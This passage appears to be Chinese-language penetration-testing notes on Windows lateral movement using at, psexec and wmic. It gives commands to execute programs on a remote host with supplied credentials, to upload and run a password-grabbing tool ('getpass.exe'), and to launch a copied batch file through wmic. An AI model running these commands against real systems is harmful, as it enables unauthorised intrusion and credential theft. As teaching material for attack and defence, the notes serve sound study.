 **at过去后如果找不到网络路径,则判断是目标主机已禁用Task Scheduler服务**  

##### psexec
第一次运行会弹框,输入–accepteula这个参数就可以绕过  
```
psexec.exe \\ip –accepteula -u username -p password program.exe
```
![](./pic/6/1.jpg)  

另外两个比较重要的参数  
```
-c <[路径]文件名>:拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）
-d 不等待程序执行完就返回
比如想上传一个本地的getpass到你远程连接的服务器上去:
Psexec.exe \\ip –u user –p pass –c c:\getpass.exe –d
```
另外学习一波pstools的一些运用  

**如果出现找不到网络名，判断目标主机已禁用ADMIN$共享**  

##### wmic  
net use后：  
```
copy 1.bat \\host\c$\windows\temp\1.bat  

wmic /node:ip /user:test /password:testtest process call create c:\windows\temp\1.bat  
```
![](./pic/6/2.jpg)  
